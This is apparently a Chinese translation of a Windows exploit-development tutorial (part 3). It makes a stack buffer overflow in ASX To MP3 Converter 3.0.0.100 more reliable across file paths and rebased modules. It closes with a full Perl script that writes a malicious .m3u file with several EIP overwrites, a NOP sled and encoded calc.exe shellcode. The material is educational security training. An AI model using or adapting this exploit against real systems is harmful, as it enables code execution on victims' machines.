










#### 翻译自 [这里](http://www.securitysift.com/windows-exploit-development-part-3-changing-offsets-and-rebased-modules/)，转发请标注原作者
2022-5-30
***

### 序言

在第 2 部分中，我们为 ASX To MP3 转换器构建了一个基本的基于堆栈的溢出漏洞利用。正如我在那篇文章中指出的那样，漏洞利用本身远非完美。成功的 EIP 覆盖受 m3u 文件的文件路径影响。此外，虽然在选择 jump/call 时首选程序模块，但我们使用的程序 DLL 已重新定位，这意味着我们的 CALL EBX 指令的地址可能会发生变化，因此不可靠。在本期文章中，我们将仔细研究这些问题以及我们可以改进原始漏洞利用以使其更可靠的一些方法。

### 改变EIP填充

我在第 2 部分中强调的一件事是，只有当 m3u 文件从 C:\ 目录的根目录运行时，ASX To MP3 Converter 的利用才有效，因为 EIP 覆盖的偏移量取决于文件路径。如果您想验证，请尝试将 m3u 文件从 C:\ 移动到您的桌面，然后在调试器中重试漏洞利用。请参阅下面的屏幕截图，您应该在堆栈上看到相同的访问冲突和类似的效果。



正如你所看到的，EIP 不是被我们的 CALL EBX 指令覆盖，而是被前面由所有 A (\x41) 组成的有效负载的“垃圾”部分覆盖。由于更长的文件路径被合并到有效负载中，它把所有东西都推到了右边，并将我们的偏移量更改为 EIP。对于验证漏洞利用，这可能没什么大不了的（因为我们至少能让它工作）。但是，如果您正在执行渗透测试或应用程序安全评估，并且需要为给定漏洞分配风险等级，它通常会受到利用漏洞的可能性的影响。显然，只能从文件系统上的一个位置触发的漏洞比可以从多个位置触发的漏洞的可能性更低。为了解决这个问题，我们可以修改漏洞利用以包含多个潜在的偏移量，从而增加其被利用的可能性。

如果你还记得，我们的缓冲区类似这样



EIP 的偏移量（当 m3u 文件位于 C:\ 的根目录时）为 26121个 字节。正如我们通过将 m3u 文件移动到桌面所显示的那样，较长的文件路径会导致 EIP 覆盖向左移动到缓冲区的垃圾部分（全部都是A），从而减小偏移量的大小。好消息是，如果文件路径是对偏移量的唯一影响，我们应该能够准确地预测新偏移量。让我们为 m3u 文件选择一个不同的保存位置来证明这个理论。位于我的桌面上的 m3u 文件的完整路径如下。

C:\Documents and Settings\Administrator\Desktop\asx2mp3.m3u

这个新路径长了 45 个字符，这意味着我们应该将 EIP 偏移量调整为 -45，给了我们一个新的偏移量 26076。让我们更新我们的漏洞利用代码，看看它是否有效

### 重新定位的程序模块

在我重新启动的 Windows 机器上使用更新的偏移量运行漏洞利用脚本会产生以下结果



EIP 显然已被我选择的 CALL EBX 地址（来自 MSA2Mcodec00.dll 的 0x01C27228）覆盖，但程序似乎并未将其识别为有效地址。我在这里遇到了另一个问题，因为在我之前的漏洞利用代码中，我使用了来自“被重定位”的程序模块 (DLL) 的地址。无需过多讨论变基的细节，请了解每个模块都有一个指定的基地址，它应该加载到该地址（编译器通常有一个默认地址，它们分配给所有模块）。如果在加载时存在地址冲突，操作系统必须重新设置其中一个模块的基地址（从性能角度来看非常高昂）。或者，程序开发人员可以提前对模块进行变基，以避免此类冲突。在我们的例子中，如果重新设置 MSA2Mcodec00.dll，地址空间会发生变化，因此，我们的 CALL EBX 地址也会发生变化。不幸的是，这比我们的 EIP 偏移问题更严重地影响了成功利用的可靠性。在这里我们有两个选择

1. 看看我们是否能找到另一个不实现变基的程序模块（首选）
2. 使用 OS 模块。请记住，从第 2 部分开始，使用 OS DLL（相对于程序 DLL）的缺点是它降低了漏洞在不同版本的 Windows 上利用的可能性。话虽这么说，在每台 Windows XP 机器上运行的漏洞利用都比只在一台机器上运行的漏洞利用要更好我们可以使用 mona 插件更仔细地检查被加载的模块，并通过运行以下命令查看哪些模块实现了变基

```
!mona find -type instr -s "call ebx"
```

下面是生成的 find.txt 文件的屏幕截图。它显示了找到指令“call ebx”的所有模块以及与每个模块相关的属性，包括它们是否实现变基（注意“rebase”列）。暂时不要担心其他列。我已经突出显示了所有应用程序模块的 rebase 属性值。



请注意，该列中以橙色突出，rebase为“False”的两个模块。不幸的是，这两个模块中的所有  “call ebx” 地址都包含空字节，正如您在第 2 部分中了解到的那样，这会带来一系列问题。看来我们别无选择，只能使用系统模块。我会选择较大的 dll ，例如 shell32、user32、kernel32 或 ntdll，因为它们可能不太可能在 OS 之间更改。在 find.txt 文件中向下滚动以查看找到的实际 “call ebx” 地址。我将选择列出的第一个 shell32 地址  (0x7c9f38f6)。



现在，我将使用来自 SHELL32 的新 CALL EBX 地址更新漏洞利用脚本（注意已经更新的 EIP 偏移量），创建 m3u 文件，然后从桌面运行它。



成功


### 更新脚本以支持多个offsets

好的，所以我们通过选择 OS 模块克服了地址变基问题，并验证了偏移量可以从 m3u 漏洞利用文件的路径大小的长度来预测。下一步是将多个偏移量合并到我们的漏洞利用代码中，以增加它从不同位置成功执行的可能性。我们可以通过简单地在offset部分包含跳转指令来实现（不使用 A，而是使用 EIP + EIP + EIP 等）。虽然这增加了成功利用的可能性，但它相当随意，因为常见的存储位置（桌面、我的文档等）可能与该模式一致，也可能不一致。相反，我们可以生成一个可能保存位置的列表，并在我们的缓冲区中更有策略地放置偏移量。我们可以手动执行此操作，通过计算每个潜在文件路径的长度并为每个位置创建偏移量，如下所示



从技术上讲，这将完成工作，最后我们将得到一个如下所示的缓冲区

JUNK (A’s) + EIP + JUNK (A’s) + EIP + JUNK (As) + EIP … + NOPS + SHELLCODE + FILL

当然，这不是非常有效的编码，并且使添加和删除路径变得很麻烦，因此让我们利用脚本的力量使其更易于管理。 

首先，我们将创建一个可能路径的数组。我创建了一个有几个可能的路径，虽然还有更多.



出于说明目的，我还包括了手动计算的偏移量（作为注释），尽管通过编写偏移量创建脚本，其实我们不需要为每个文件路径实际执行此操作。接下来，我们创建一个循环并使用数组的内容动态构建缓冲区的 junk + eip 部分。



正如您在上面看到的，我们只是遍历数组并使用每个文件路径的长度（减去共享的“C:\”）来战略性地放置我们的偏移量

最后的攻击脚本

```perl
#!/usr/bin/perl

######################################################################
# Exploit Title: ASX to MP3 Converter 3.0.0.100 (.m3u) - Local BOF
# Date: 11-16-2013
# Exploit Author: Mike Czumak (T_v3rn1x) -- @SecuritySift
# Vulnerable Software: ASX to MP3 Converter 3.0.0.100
# Software: http://www.mini-stream.net/asx-to-mp3-converter/download/
# Tested On: Windows XP SP3
# Credits: Older versions found to be vulnerable to similar bof
# -- http://www.exploit-db.com/exploits/8629/
######################################################################

my $buffsize = 50000; # sets buffer size for consistent sized payload

# the application incorporates the path of the m3u file in the buffer
# this can hinder successful execution by changing the offset to eip
# to make this more reliable, we'll create a buffer w/ several offsets
# to potential file locations (desktop, my music, my playlists, etc)
# if the m3u file is placed in any of these locations it should work

# if the m3u file is saved in root dir (c:\, z:\, etc) eip offset = 26121
# we can use that value to calculate other relative offsets based on file path length

my @offsets = ( 'C:\Documents and Settings\Administrator\My Documents\My Music\My Playlists\\', # offset at 26049
'C:\Documents and Settings\All Users\Documents\My Music\My Playlists\\', # offset at 26056
'C:\Documents and Settings\Administrator\My Documents\My Music\\', # offset at 26062
'C:\Documents and Settings\All Users\Documents\My Music\\', # offset at 26069
'C:\Documents and Settings\Administrator\Desktop\\', # offset at 26076
'C:\Documents and Settings\All Users\Desktop\\', # offset at 26080
'C:\\'); # offset at 26121

my $eip = pack('V', 0x7c9f38f6); # call ebp C:\Windows\System32\SHELL32.dll

$i = 0;
foreach (@offsets) {
$curr_offset = 26121 - (length($_)) + 3; # +3 for shared "c:\"
$prev_offset = 26121 - (length($offsets[$i-1])) + 3;

if ($i eq 0){
# if it's the first offset build the junk buffer from 0
$junk = "\x41" x $curr_offset;
# append the eip overwrite to the first offset
$offset = $junk.$eip
} else {
# build a junk buffer relative to the last offset
$junk = "\x41" x (($curr_offset - $prev_offset) - 4);
# append new junk buffer + eip to the previously constructed offset
$offset = $offset.$junk.$eip;
}

$i = $i + 1; # increment index counter

}

my $nops = "\x90" x 21400; # offset to shellcode at call ebp

# Calc.exe payload [size 227]
# msfpayload windows/exec CMD=calc.exe R |
# msfencode -e x86/shikata_ga_nai -c 1 -b '\x00\x0a\x0d\xff'
my $shell = "\xdb\xcf\xb8\x27\x17\x16\x1f\xd9\x74\x24\xf4\x5f\x2b\xc9" .
"\xb1\x33\x31\x47\x17\x83\xef\xfc\x03\x60\x04\xf4\xea\x92" .
"\xc2\x71\x14\x6a\x13\xe2\x9c\x8f\x22\x30\xfa\xc4\x17\x84" .
"\x88\x88\x9b\x6f\xdc\x38\x2f\x1d\xc9\x4f\x98\xa8\x2f\x7e" .
"\x19\x1d\xf0\x2c\xd9\x3f\x8c\x2e\x0e\xe0\xad\xe1\x43\xe1" .
"\xea\x1f\xab\xb3\xa3\x54\x1e\x24\xc7\x28\xa3\x45\x07\x27" .
"\x9b\x3d\x22\xf7\x68\xf4\x2d\x27\xc0\x83\x66\xdf\x6a\xcb" .
"\x56\xde\xbf\x0f\xaa\xa9\xb4\xe4\x58\x28\x1d\x35\xa0\x1b" .
"\x61\x9a\x9f\x94\x6c\xe2\xd8\x12\x8f\x91\x12\x61\x32\xa2" .
"\xe0\x18\xe8\x27\xf5\xba\x7b\x9f\xdd\x3b\xaf\x46\x95\x37" .
"\x04\x0c\xf1\x5b\x9b\xc1\x89\x67\x10\xe4\x5d\xee\x62\xc3" .
"\x79\xab\x31\x6a\xdb\x11\x97\x93\x3b\xfd\x48\x36\x37\xef" .
"\x9d\x40\x1a\x65\x63\xc0\x20\xc0\x63\xda\x2a\x62\x0c\xeb" .
"\xa1\xed\x4b\xf4\x63\x4a\xa3\xbe\x2e\xfa\x2c\x67\xbb\xbf" .
"\x30\x98\x11\x83\x4c\x1b\x90\x7b\xab\x03\xd1\x7e\xf7\x83" .
"\x09\xf2\x68\x66\x2e\xa1\x89\xa3\x4d\x24\x1a\x2f\xbc\xc3" .
"\x9a\xca\xc0";

my $sploit = $offset.$nops.$shell;
my $fill = "\x43" x ($buffsize - (length($sploit))); # fill remainder
my $buffer = $sploit.$fill; # build final buffer

# write the exploit buffer to file
my $file = "asx2mp3.m3u";
open(FILE, ">$file");
print FILE $buffer;
close(FILE);
print "Exploit file created [" . $file . "]\n";
print "Buffer size: " . length($buffer) . "\n";
```

如果您想可视化缓冲区的外观，请在文本编辑器中打开生成的 m3u 文件，您应该会看到如下偏移量



由于我们使用 OS DLL 进行 EIP 覆盖并且漏洞触发位置的数量有限，即使这个更新的漏洞利用并不完美，但它也是对第 2 部分中我们原始版本的一种改进。 我提到过，除了更改受文件路径影响的偏移量之外，遇到具有多个由启动方式确定的偏移量的漏洞利用并不少见。以最近发布的 RealPlayer 16.0.3.51/16.0.2.32 漏洞利用为例，它包含两个 offset/EIP 覆盖，一个用于直接启动漏洞利用，另一个用于从程序中打开它。如果漏洞利用代码本身看起来略有不同，那是因为它是基于 SEH 的缓冲区溢出，我们将在其他几篇文章中讨论这个主题。目前，如果您选择在测试机器上尝试该漏洞利用，您可能需要根据您的操作系统进行一些调整。如果您运行的是 Windows XP SP3，您可能需要将 $junk2 偏移量调整为 10515，并且根据您拥有的 RealPlayer 版本，您可能需要切换 SEH 值。 
